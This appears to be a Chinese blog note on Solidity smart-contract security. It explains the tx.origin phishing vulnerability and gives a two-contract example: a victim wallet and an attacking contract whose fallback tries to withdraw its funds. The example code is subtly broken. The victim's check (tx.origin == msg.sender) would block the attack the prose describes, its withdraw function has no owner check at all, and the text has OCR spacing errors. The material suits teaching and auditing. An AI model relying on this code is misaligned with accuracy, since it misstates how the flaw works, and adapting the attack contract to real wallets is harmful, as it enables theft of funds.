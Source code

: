 ```yaml
---
title: 2-tx.origin

date: 2023-04-21	

categories: 合约安全	

tags: [区块链,合约安全]
---	
```


# tx.origin

在合约中使用 `tx.origin` 可能容易受到伪造的交易攻击，因为它只提供了最初的发送者地址，而不是当前调用合约的地址。这种攻击称为 "跨合约伪造"（cross-contract calling attack）或 "Tx.origin漏洞"（Tx.origin vulnerability）。因此，尽量避免在合约中过于依赖 `tx.origin`。

使用tx.origin很少有好的理由。如果tx.origin被用来识别交易发起人，那么中间人攻击是可能的。**如果用户被骗去调用一个恶意的智能合约，那么该智能合约就可以利用tx.origin所拥有的所有权限来进行破坏**。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract phish {
    address public owner;
    constructor () {
    owner = msg.sender;
    }
    receive() external payable{}

    fallback() external payable{}

    function withdrawAll (address payable _recipient) public {
        require(tx.origin == msg.sender);
        _recipient.transfer(address(this).balance);
    }
    function getOwner() public view returns(address) {
        return owner;
    }
}

contract TxOrigin {
    address  owner;
    phish PH;

    constructor(address phishAddr) {
        owner = msg.sender;
        PH=phish(payable(phishAddr));
    }

    function attack() internal {
        address phOwner = PH.getOwner();
        if (phOwner == msg. sender) {
            PH.withdrawAll(payable(owner));
        } else {
            payable(owner).transfer(address(this). balance);
        }
    }
    fallback() external payable{
        attack();
    }
}
```

